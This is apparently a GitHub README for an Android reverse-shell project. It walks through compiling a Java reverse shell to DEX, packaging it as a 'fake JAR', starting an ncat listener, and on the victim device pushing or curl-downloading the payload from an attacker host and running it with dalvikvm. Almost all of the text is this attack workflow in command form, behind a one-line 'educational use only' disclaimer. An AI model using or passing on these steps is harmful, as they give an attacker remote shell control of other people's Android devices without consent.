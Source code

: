 # JavaAndroidReverseShell

Original Tutorial: https://malacupa.com/2018/10/25/android-command-line-reverse-shell.html

## On Attacker machine (you need android sdk installed and build-tools also):

#### Compile Java source code in bytecode (if fails for "class error not supported", change the release!)
`javac --release 17 AndroidReverseShell.java`

#### convert to DEX format 
`~/Library/Android/sdk/build-tools/33.0.0/d8 --output classes.dex AndroidReverseShell.class`

#### create fake JAR file
`zip reverse.jar classes.dex`

#### Set Listener (USE NCAT!)
`ncat -nlvp 1337`

## On victim android device:
`adb push reverse.jar /sdcard` (if Android Debug Tools is enabled)

You can just use DalvikVM bash script from Termux:

`curl http://attackingmachine:9999/reverse.jar -o /sdcard/reverse.jar`
`cd /system/bin/ && ./dalvikvm -cp /sdcard/reverse.jar AndroidReverseShell`

(pay attention to final "AndroidReverseShell" this must be same name used before, otherwise it fails!)

You can of course create a pure .apk package and sign it using Android Studio or apktool and apksigner and so on...

## Todo

. Support for SSL encryption

## Disclaimer:

*This is for educational use only.*

Java code was taken from https://gist.github.com/malacupa/3a98285ad67c98386f7e798b25ef808c#file-reverseshell-java
All credits goes to original developer

